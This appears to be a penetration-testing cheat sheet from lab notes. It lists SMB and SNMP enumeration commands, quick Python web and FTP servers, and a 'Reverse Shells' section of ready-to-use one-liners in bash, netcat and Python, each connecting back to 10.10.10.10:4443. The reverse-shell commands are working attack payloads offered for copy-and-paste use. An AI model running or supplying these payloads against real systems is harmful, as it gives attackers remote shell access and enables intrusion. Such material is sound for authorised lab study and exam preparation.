 SMB Users & Shares Scan

nmap -p 445 -vv --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.10.10

Enum4linux

enum4linux -a 10.10.10.10

Null connect

rpcclient -U "" 10.10.10.10

Connect to SMB share

smbclient //MOUNT/share

SNMP

SNMP enumeration

snmp-check 10.10.10.10

Commands

This section will include commands / code I used in the lab environment that I found useful

Python Servers

Web Server

python -m SimpleHTTPServer 80

FTP Server

# Install pyftpdlib
pip install pyftpdlib

# Run (-w flag allows anonymous write access)
python -m pyftpdlib -p 21 -w

Reverse Shells

Bash shell

bash -i >& /dev/tcp/10.10.10.10/4443 0>&1

Netcat without -e flag

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f

Netcat Linux

nc -e /bin/sh 10.10.10.10 4443

Netcat Windows

nc -e cmd.exe 10.10.10.10 4443

Python

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",4443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
